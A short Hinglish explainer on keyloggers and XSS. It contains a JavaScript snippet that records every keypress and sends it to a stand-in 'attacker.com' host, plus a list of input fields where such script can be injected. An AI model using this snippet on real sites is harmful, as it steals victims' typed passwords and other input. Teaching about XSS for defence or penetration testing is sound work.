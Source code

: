 # What is keylogger 

🧠 Keylogger ek aisi script hoti hai jo user jo kuch bhi keyboard se likhta hai (jaise username, password), woh secretly record kar leti hai.

### 🕵️‍♂️ Penetration Testing ya Malicious XSS main attacker JS ka use karta hai jo har keypress ko record karta hai:

**document.addEventListener('keydown', function(e) {
  fetch('https://attacker.com/log?key=' + e.key);
});**

☠️ Ye code agar XSS ke through inject ho jaye, tou jab victim kuch type karega (login form waghera main), toh attacker ke server pe keys chali jayengi.

### 💻 Inject kahaan hota hai?
Jahan XSS possible ho:

Comment boxes

Profile name fields

URL parameters

Any place jahan user input reflect hoti hai